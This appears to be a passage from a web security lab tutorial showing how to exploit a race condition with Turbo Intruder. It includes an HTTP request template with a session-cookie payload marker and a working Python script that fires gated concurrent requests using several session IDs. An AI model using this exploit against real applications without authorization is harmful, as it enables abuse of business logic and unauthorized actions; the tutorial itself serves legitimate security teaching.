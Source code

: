 ![image](pvcrGK5LJLxq.png)

**Note:** This script does not exist in the latest version of Turbo Intruder. If you are already familiar with Turbo Intruder, feel free to use any other script as a baseline and adjust it to your needs. Otherwise, you can find the `race.py` script in the Turbo Intruder GitHub repository [here](https://github.com/PortSwigger/turbo-intruder/blob/b5c6e2d614cf8db0e9b02a32dd06119161888e17/resources/examples/race.py). You can simply copy and paste it into the Turbo Intruder window and continue from there.

The turbo intruder window consists of two main parts: the HTTP request at the top and the exploit script at the bottom. The script at the bottom is written in Python, and we can modify it according to our needs. Turbo Intruder inserts a payload into the request wherever a `%s` is specified. In our case, we need to add different session cookies to the requests to avoid running into the file lock issue. Therefore, we will modify the request at the top by replacing the session cookie with the value `%s` such that the corresponding line looks like this:

```http
<SNIP>
Cookie: PHPSESSID=%s
<SNIP>

```

Here is the final request:

![image](WTUL03fbEL2C.png)

Now we have to specify the payload, which is the second parameter of the `engine.queue` function call. Thus, we modify the exploit script to look like this by inserting the valid session cookies we obtained in the previous step:

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=30,
                           requestsPerConnection=100,
                           pipeline=False
                           )

    # the 'gate' argument blocks the final byte of each request until openGate is invoked
    for sess in ["p5b2nr48govua1ieljfdecppjg", "48ncr9hc1rjm361fp7h17110ar", "0411kdhfmca5uqiappmc3trgcg", "m3qv0d1qu7omrtm2rooivr7lc4", "onerh3j83jopd5ul8scjaf14rr"]:
        engine.queue(target.req, sess, gate='race1')

    # wait until every 'race1' tagged request is ready
    # then send the final byte of each request
    # (this method is non-blocking, just like queue)
    engine.openGate('race1')

    engine.complete(timeout=60)

def handleResponse(req, interesting):
    table.add(req)

```
